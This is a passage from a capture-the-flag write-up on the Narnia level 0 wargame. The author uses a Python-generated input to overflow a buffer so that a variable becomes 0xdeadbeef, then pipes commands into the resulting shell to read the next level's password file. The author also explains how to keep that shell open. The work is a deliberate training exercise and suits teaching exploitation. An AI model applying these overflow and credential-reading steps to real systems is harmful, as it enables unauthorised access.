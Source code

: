 	* This simply means, whatever I echo , the shell is trying to execute it. I gave the thing we want. I gave **echo "cat /etc/narnia_pass/narnia1"** and see what happened.
			
			narnia0@narnia:/narnia$ (python -c "print 'a' * 20 + '\xef\xbe\xad\xde'"; echo "cat /etc/narnia_pass/narnia1") | ./narnia0
			Correct val's value from 0x41414141 -> 0xdeadbeef!
			Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
			val: 0xdeadbeef
			efeidiedae
			narnia0@narnia:/narnia$ 
	
	* See, we got the password. But I wanted to get a proper shell. 

* I tried to understand what **echo** is doing. It is taking a string(which we have put), echoing it to **/bin/sh**, which is executing that string. 
* The tool / command which continuously takes in input from console and echo it back is **cat**. Check this out.

		narnia0@narnia:/narnia$ cat 
		asd
		asd
		qwerty
		qwerty
		I wish it works
		I wish it works

		narnia0@narnia:/narnia$ 

* And I put **cat** instead of **echo** in the python command, and it worked like a charm!



			 
